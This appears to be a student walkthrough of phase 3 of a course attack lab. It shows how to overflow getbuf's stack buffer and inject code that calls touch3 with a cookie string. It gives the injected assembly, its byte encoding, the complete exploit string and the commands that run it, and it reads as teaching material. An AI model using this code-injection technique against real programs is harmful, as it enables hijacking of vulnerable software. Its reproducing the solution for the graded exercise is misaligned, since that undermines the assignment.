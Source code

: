 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing it before the return address of getbuff (24 bytes)

The return address of getbuf is %rsp + buffer, the buffer was 24 bytes so it will be %rsp + 24

`0x18` = `24`

we know, `%rsp = 0x55623840`

Thus, return address = `0x55623840 + 0x18  = 0x55623858`

Your cookie address = `0x55623840 - 0x18` = `0x55623828`

If you look in the disassembled file, you can find the address of touch3

Mine is at `0x00401860`

Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55623858,%rdi /* %rsp + 0x18 */
    pushq $0x00401860      /* touch3 address */   
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 58 38 62 55 	mov    $0x55623858,%rdi
   7:	68 60 18 40 00       	pushq  $0x401860
   c:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named phase3.txt and here is what mine looks like:
```
48 c7 c7 58 38 62 55 68
60 18 40 00 c3 00 00 00 /* mov return address of getbuf to rdi register and push address of touch3 to the stack */
00 00 00 00 00 00 00 00 /* padding */
28 38 62 55 00 00 00 00 /* return address of rsp-0x18, where the string will be stored*/
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie isn't in hex format, so you need to take your cookie and convert in to string format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
